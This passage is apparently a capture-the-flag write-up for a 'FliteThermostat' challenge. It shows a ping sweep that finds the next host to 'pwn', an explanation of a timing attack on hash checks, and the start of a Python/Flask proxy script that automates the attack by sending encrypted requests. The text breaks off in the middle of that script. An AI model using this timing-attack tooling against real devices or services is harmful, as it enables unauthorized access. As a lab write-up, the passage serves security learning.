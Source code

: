     for x in `cat ip_addr`; do ping -c 1 -W 1 $x | grep from; done

to the ipaddress list and found one `ipaddress` that accessible, which is http://104.196.12.98/ the next target that we should pwn.

### FliteThermostat Admin

after trying to understand the application, i notice a difference when send a valid hash length (64) and send a less than 64 character and made me think there is an timing attack, i tried to fuzz the first byte of the hash and notice have one longer response (when the byte is correct)  so i made a python script to automate the exploitation proccess, i made an flask web application that act like an proxy to send the encrypted request to target server.

    #!/usr/bin/env python2
    from Crypto.Cipher import AES
    from Crypto import Random
    import os
    import base64
    import requests
    import urllib
    import json
    import flask
    # import mechanize
    
    app = flask.Flask(__name__)
    
    headers = {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 
    "User-Agent": "Dalvik/2.1.0 (Linux; U; Android 8.1.0; Redmi 6A MIUI/V9.6.18.0.OCBMIFD)", 
    "Connection": "close", 
    "Accept-Encoding": "gzip, deflate"
    }
    
    @app.route('/flite', methods=['POST','GET'])
    def flite():
        if flask.request.method == "GET":
            x = """
                    <html>
                <head>
                    <title>Test</title>
                    <script type="text/javascript">
                    function stream(key) {{
                this.b = [];
                for (var i = 0; i < 256; ++i) this.b[i] = i;
                var j = 0;
                for (var i = 0; i < 256; ++i) {{
                    j = (j + this.b[i] + key.charCodeAt(i % key.length)) & 0xFF;
                    var t = this.b[i];
                    this.b[i] = this.b[j];
                    this.b[j] = t;
                }}
                this.a = 0;
                this.c = 0;
            }}
            stream.prototype.next = function() {{
                this.a = (this.a + 1) & 0xFF;
                this.c = (this.c + this.b[this.a]) & 0xFF;
                var t = this.b[this.a];
                this.b[this.a] = this.b[this.c];
                this.b[this.c] = t;
                return this.b[(this.b[this.a] + this.b[this.c]) & 0xFF];
            }};
    
